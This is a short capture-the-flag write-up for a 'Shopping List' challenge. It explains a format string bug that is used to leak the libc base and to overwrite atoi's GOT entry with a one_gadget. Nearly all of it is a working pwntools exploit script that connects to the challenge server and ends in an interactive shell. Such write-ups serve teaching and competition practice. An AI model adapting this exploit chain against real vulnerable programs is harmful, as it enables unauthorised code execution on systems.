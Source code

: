 # Shopping List
> LongChampion, 06/04/2020

## Challenge
These is a format string vulnerable in `Edit Item` function. You need to add one item, then "edit" it to use this bug multiple times.  
I use format string to scan return address of `main` function to leak libc base address. Then I use this bug again to overwrite `atoi_got` address with one_gadget.

## Solution
```python
#!/usr/bin/env python2
from pwn import *
context.binary = "./ShoppingList"

r = remote("jh2i.com", 50002)
lib = ELF("libc6_2.23-0ubuntu10_amd64.so", checksec=False)

BASE = 74


def Add(Content):
    r.sendlineafter(">", "1")
    r.sendlineafter("add?", Content)


def Edit(idx, Content):
    r.sendlineafter(">", "3")
    r.sendlineafter("item?", str(idx))
    r.sendlineafter("value?", Content)


Add("Hello")
Edit(1, "%653$lx")
r.recvuntil("New Value: ")
Leak = r.recvline(keepends=False)
Leak = int(Leak, 16)
log.info("Leak: " + hex(Leak))
LIBC = Leak - lib.symbols["__libc_start_main"]
LIBC &= ~0xfff
log.success("LIBC: " + hex(LIBC))

atoi_got = 0x602048
# 0x45216, 0x4526a, 0xf02a4, 0xf1147
payload = fmtstr_payload(BASE, {atoi_got: LIBC + 0x4526a})
Edit(1, payload)

r.interactive()
```

